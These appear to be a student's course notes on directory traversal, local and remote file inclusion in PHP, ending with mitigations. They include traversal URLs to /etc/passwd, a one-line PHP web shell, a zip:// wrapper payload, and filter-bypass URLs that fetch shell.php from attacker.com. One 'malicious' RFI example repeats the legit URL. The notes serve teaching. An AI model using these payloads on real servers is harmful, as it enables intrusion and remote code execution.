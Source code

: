## Directory Traversal Attack (LFI & RFI)

* Allowing a user to control a file’s name / location, may allow them to traverse to different directories
* Injection class vulnerability
* Can be simple to exploit (in cases), however can require knowledge of the underlying file system
* Can lead to severe cases of information disclosure

* Example:
  * `http://example.com/?download=test.txt`
  *  Shows the contents of test.txt
  * `http://example.com/?download=../../../../etc/passwd`
  * Shows the contents of /etc/passwd



### Local File Inclusion (LFI)

* Allowing a user to specify which file to import
* Another injection type vulnerability
* Including local files only
* May require the attacker to know where files are located on the server’s file system
* This can sometimes be identified with information leakages
* Can use directory traversals to your advantage
* Can lead to severe information disclosure, or even code injection
* Can use different protocols to your advantage
* Example:
  * file:// - access files on the server
  * php://filter – used to encode information
  * phar:// - used to load phar files
  * zip:// - used to unzip a file on the fly
  * Only file:// and php:// will be used in examinable tasks (may be in the exam / assignments)

#### Example & Attack

```
<?php
if (isset($_GET['language'])) {
include($_GET['language'] . '.php');
}
?>
```

Legit example: https://example.com/login.php?language=english.php

* Output: English version of the website\
* Legit example: https://example.com/login.php?language=../user/upload/exploit
  * In PHP, string becomes: include(‘../user/upload/exploit.php');
  * Output: executes whatever code is within exploit.php
  * Can result in complete takeover of the web sever

#### Attack Process

<img src="img\11\1.png" alt="1" style="zoom:80%;" />

#### Example PHP Upload

```
<?php
system(“$_GET[‘cmd’]);
?>
```

#### ZIP Attack Process

<img src="img\11\2.png" alt="2" style="zoom:80%;" />

`zip://../../../user/uploads/saj.zip#style`

* #: reference to style.css



### Remote File Inclusion (RFI)

* Exact same thing as LFI, but now fetches remotely
* Leads to the same vulnerabilities
* Uses the same protocols

##### Legit:

```
https://example.com/login.php?language=https://example.com/lang/english.php
```

##### Malicious:

```
https://example.com/login.php?language=english.php
```

#### Example

`https://example.com/lang/english.php`

Filter requires example.com being in the string

1. `https://example.com/shell.php#example.com`  (# as anchor)

2. `https://example.com/shell.php?add=https://example.com`

3. `https://example.com:hello@attacker.com/shell.php`  (basic authentication)
   * Username is example.com and password is hello, sending it to attacker.com



#### Mitigations

* Sanitise user input
* Use a WAF
* Re-architect software solution to have stricter egress rules
* This basically means, make sure that the web application can only communicate to applications /
  websites you want it to communicate with (whitelisting)
